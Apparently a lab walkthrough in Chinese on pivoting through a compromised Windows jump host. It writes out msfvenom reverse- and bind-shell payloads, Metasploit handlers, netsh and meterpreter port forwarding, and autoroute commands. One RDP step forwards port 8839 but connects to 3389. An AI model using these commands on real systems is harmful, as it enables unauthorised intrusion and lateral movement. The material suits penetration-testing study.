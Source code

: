 # 内网穿透-端口转发

| kali（攻击者） | Win2016（跳板机）                | Win2003（内网靶机） |
| -------------- | -------------------------------- | ------------------- |
| 192.168.114.40 | 192.168.114.79<br />10.10.10.130 | 10.10.10.129        |
|                | 已经被kali获取shell              | 有web服务           |

1、获取win2016的shell

```shell
# 利用msf生成木马，放到win2016
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.114.40 LPORT=4444 -f exe -o shell.exe

# 进入msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.114.40
set lport 4444
run

# 运行win2016上的木马，获取shell

```

2、shell配置端口转发

```shell
# 进入shell，利用管理员权限设置端口转发
netsh interface portproxy add v4tov4 listenport=8888 connectaddress=10.10.10.129 connectport=80

# 查看端口转发列表
netsh interface portproxy show all

# kali访问win2016的8888端口即可
http://192.168.114.79:8888/


# 清除转发规则
netsh interface portproxy delete v4tov4 listenport=8888
netsh interface portproxy reset
```

![image-20230303154422423](https://s2.loli.net/2023/03/04/UawdtQRC54m98Ev.png)

```shell
# 如果是linux
# 进入shell，打开临时端口转发功能
echo 1 >/proc/sys/net/ipv4/ip_forward


firewall-cmd --zone=public --add-port=8888/tcp --permanent
firewall-cmd --zone=public --add-forward-port=port=8888:proto=tcp:toaddr=10.10.10.129:toport=80 --permanent

```

3、msf配置端口转发

```shell
# 在meterpreter命令行中配置
portfwd add -l 81 -r 10.10.10.129 -p 80
[*] Forward TCP relay created: (local) :81 -> (remote) 10.10.10.129:80

# kali访问本地81端口
http://127.0.0.1:81/
```

![image-20230303154231800](https://s2.loli.net/2023/03/04/bdmM1SUByjIhi9s.png)

```shell
# 远程桌面
# 确保内网win2003开启远程桌面服务
# 在meterpreter命令行中配置
portfwd add -l 8839 -r 10.10.10.129 -p 3389

# 远程连接桌面
rdesktop localhost:3389
```

![image-20230303154304074](https://s2.loli.net/2023/03/04/xSVehAijcK7zFTW.png)



4、正向连接内网主机win2003

```shell
# 1、在msf中添加路由
# 查看内网相关信息
run get_local_subnets

# 添加自动路由
run post/multi/manage/autoroute

# 配置静态路由
run autoroute -s 10.10.10.0/24

# 查看路由表
run autoroute -p


# 2、正向连接
# 生成木马，上传到内网主机
msfvenom -p windows/meterpreter/bind_tcp -f exe -o shell.exe

# 开启监听
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lport 4444
set rhost 10.10.10.129
run

# 启动木马
```

![image-20230303172550877](https://s2.loli.net/2023/03/04/bYZGXeiDzrVqKPo.png)

